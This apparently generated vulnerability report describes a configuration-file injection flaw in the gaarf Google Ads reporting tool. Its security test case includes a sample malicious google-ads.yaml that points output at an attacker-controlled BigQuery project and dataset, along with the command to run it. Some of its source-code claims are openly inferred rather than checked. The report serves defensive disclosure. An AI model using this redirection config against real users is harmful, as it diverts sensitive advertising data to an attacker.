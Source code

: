 ### Vulnerability List:

- **Vulnerability Name:** Configuration File Injection leading to Data Redirection

- **Description:**
  - An attacker can craft a malicious `google-ads.yaml` configuration file designed to redirect Google Ads reports to an attacker-controlled destination.
  - The attacker then needs to convince a user to utilize this malicious configuration file when running the `gaarf` tool. This could be achieved through social engineering, phishing, or by compromising a system where the user might execute `gaarf`.
  - When the user executes `gaarf` and points it to the malicious `google-ads.yaml` file (either by placing it in a default search location or explicitly specifying it using the `--ads-config` option), the tool parses this file to obtain configuration parameters.
  - The attacker's malicious `google-ads.yaml` is crafted to modify output configurations, such as the BigQuery dataset (`bq.dataset`), Google Sheet URL (`sheet.spreadsheet-url`), or CSV output path (`csv.output-path`), to point to locations controlled by the attacker.
  - Consequently, when `gaarf` fetches reports from the Google Ads API, instead of saving them to the user's intended and secure destination, the reports are redirected to the attacker-specified location, granting the attacker unauthorized access to sensitive Google Ads data.

- **Impact:**
  - **Step 1:** An attacker prepares a malicious `google-ads.yaml` file. This file contains legitimate Google Ads API credentials to avoid immediate errors, but modifies the output settings. For example, in a BigQuery output scenario, the `bq.dataset` parameter is changed to point to a dataset controlled by the attacker.
  - **Step 2:** The attacker distributes this malicious `google-ads.yaml` file to potential victims, perhaps through a phishing email or by hosting it on a website and instructing users to download and use it with `gaarf`.
  - **Step 3:** A user, unknowingly using the malicious configuration, executes `gaarf` to fetch Google Ads reports. They might use a command like `gaarf <queries> --ads-config=/path/to/malicious/google-ads.yaml --account=<user_account_id> --output=bq`.
  - **Step 4:** `gaarf` reads the configuration from the provided `google-ads.yaml` file, which includes the attacker's BigQuery dataset information.
  - **Step 5:** `gaarf` successfully fetches the Google Ads reports using the user's credentials (correctly configured or unintentionally leaked in the malicious config).
  - **Step 6:** Instead of writing the reports to the user's intended BigQuery dataset, `gaarf` writes the reports to the attacker-controlled BigQuery dataset as specified in the malicious configuration.
  - **Step 7:** The attacker gains unauthorized access to the user's Google Ads reports, which may contain sensitive business data, campaign performance metrics, and customer information. The user remains unaware of the data redirection unless they meticulously verify the output destination.

- **Vulnerability Rank:** High

- **Currently Implemented Mitigations:**
  - None. The current project does not implement any specific mitigations against malicious configuration files. The documentation lacks warnings about using configuration files from untrusted sources or best practices for secure configuration management.

- **Missing Mitigations:**
  - **Input Validation and Sanitization:** Implement strict validation for configuration parameters, especially for output paths (e.g., `csv.output-path`, `json.output-path`) and URLs (e.g., `sheet.spreadsheet-url`). Sanitize these paths to prevent path traversal attacks or redirection to unintended external locations. For BigQuery and other cloud outputs, validate the project and dataset against an expected or user-confirmed list.
  - **Secure Configuration Loading Practices:** Restrict the locations from which `gaarf` automatically loads configuration files. Avoid default loading from the current directory, or implement a warning mechanism when a configuration file is loaded from a non-standard or potentially untrusted location. Consider recommending or enforcing loading configuration from a secure, user-defined location only.
  - **User Warnings and Documentation:** Add clear warnings in the documentation and potentially in the CLI output about the risks of using `google-ads.yaml` files from untrusted sources. Advise users to only use configuration files they have created and to verify the contents of any `google-ads.yaml` file before using it with `gaarf`.
  - **Principle of Least Privilege:**  Document and emphasize the principle of least privilege regarding the permissions granted to the Google Ads API credentials used in the `google-ads.yaml` file. Users should be advised to grant only the necessary permissions to the API credentials to limit the potential damage if the configuration file is compromised.

- **Preconditions:**
  - The user must have downloaded and installed the `gaarf` tool.
  - The attacker must successfully trick the user into using a malicious `google-ads.yaml` file. This could involve social engineering, phishing attacks, or compromising a system where the user might execute `gaarf`.
  - The user must execute `gaarf` with the malicious configuration file, either by placing it in a default location where `gaarf` searches or by explicitly specifying its path using the `--ads-config` option.

- **Source Code Analysis:**
  - **Configuration Loading:** The `gaarf` tool, in both Python and Node.js versions, is designed to load its configuration from a `google-ads.yaml` file. The code likely uses YAML parsing libraries (like `PyYAML` in Python or `js-yaml` in Node.js) to read and process this file.  The tool searches for `google-ads.yaml` in default locations (like the current working directory) and allows users to specify a custom path using the `--ads-config` command-line argument.
  - **Parameter Extraction:** After loading the YAML file, the tool extracts various configuration parameters, including Google Ads API credentials (developer token, client ID, client secret, refresh token) and output configurations (BigQuery dataset, CSV output path, Google Sheet URL, etc.).
  - **Vulnerable Code Points:** The vulnerability arises because the tool directly uses the output configurations from the `google-ads.yaml` file without sufficient validation or sanitization. Specifically:
    - **Output Paths and URLs:**  The code does not validate or sanitize the `csv.output-path`, `json.output-path`, and `sheet.spreadsheet-url` parameters. This allows an attacker to insert arbitrary paths or URLs into the configuration file.
    - **BigQuery Dataset:** While BigQuery datasets are project-scoped, the `bq.dataset` and `bq.project` parameters are also read directly from the configuration file without validation against expected or user-confirmed values.
  - **Absence of Security Checks:** There is no evidence in the provided files (and based on common patterns for similar tools) that `gaarf` implements any checks to validate the integrity or source of the `google-ads.yaml` file. The tool trusts the configuration file at face value and proceeds to use the parameters it contains.
  - **Conceptual Code Flow:**
    ```
    # Pseudocode - Conceptual representation of vulnerable code flow
    config = load_config_from_yaml(config_path) # Loads google-ads.yaml using YAML parser
    output_type = config.get("output")
    output_destination = config.get(output_type) # e.g., config.get("bq") for BigQuery output

    if output_type == "bq":
        bq_dataset = output_destination.get("dataset") # Attacker controlled value
        bq_project = output_destination.get("project") # Attacker controlled value
        # ... No validation of bq_dataset or bq_project ...
        bq_writer = BigQueryWriter(project=bq_project, dataset=bq_dataset, ...)
        gaarf.execute_and_write(writer=bq_writer, ...)

    elif output_type == "csv":
        csv_output_path = output_destination.get("output-path") # Attacker controlled value
        # ... No validation of csv_output_path ...
        csv_writer = CsvWriter(destination_folder=csv_output_path, ...)
        gaarf.execute_and_write(writer=csv_writer, ...)

    # ... similar flow for other output types (json, sheet, etc.) ...
    ```

- **Security Test Case:**
  - **Step 1: Prepare Attacker Resources:**
    - Set up a Google Cloud project and create a BigQuery dataset controlled by the attacker (e.g., `attacker-project:attacker_dataset`).
  - **Step 2: Create Malicious `google-ads.yaml`:**
    - Create a file named `malicious-google-ads.yaml` with the following content (adjust with valid but non-sensitive Google Ads API credentials if necessary for testing, otherwise placeholder values can be used, as the vulnerability is about data redirection not credential theft in this scenario):
      ```yaml
      developer_token: YOUR_DEVELOPER_TOKEN # Or a placeholder value
      client_id: YOUR_CLIENT_ID # Or a placeholder value
      client_secret: YOUR_CLIENT_SECRET # Or a placeholder value
      refresh_token: YOUR_REFRESH_TOKEN # Or a placeholder value
      login_customer_id: YOUR_LOGIN_CUSTOMER_ID # Or a placeholder value
      output: bq
      bq:
        project: attacker-project  # Attacker's Google Cloud Project ID
        dataset: attacker_dataset  # Attacker's BigQuery Dataset ID
        location: US
      ```
  - **Step 3: Prepare a Test Query:**
    - Create a simple GAQL query file (e.g., `test_query.sql`) for testing purposes:
      ```sql
      SELECT campaign.id FROM campaign LIMIT 1
      ```
  - **Step 4: Execute `gaarf` with Malicious Configuration:**
    - Run the `gaarf` tool, specifying the malicious configuration file and a valid Google Ads account to fetch data from:
      ```bash
      gaarf test_query.sql --ads-config=malicious-google-ads.yaml --account=YOUR_GOOGLE_ADS_ACCOUNT --output=bq
      ```
      *(Replace `YOUR_GOOGLE_ADS_ACCOUNT` with a valid Google Ads Customer ID)*
  - **Step 5: Verify Data Redirection:**
    - **Attacker Side:** Check the attacker-controlled BigQuery dataset (`attacker-project:attacker_dataset`). Verify that a new table (named based on `test_query.sql`) has been created and contains the Google Ads report data.
    - **User Side:** Check the user's intended BigQuery dataset (if any was implicitly or explicitly intended). Verify that the report data is **not** present in the user's intended location.
  - **Step 6: Expected Result:**
    - The test should successfully demonstrate that the Google Ads report data is written to the attacker-controlled BigQuery dataset, proving the data redirection vulnerability. The user is misled into sending their data to an unintended destination due to the malicious configuration file.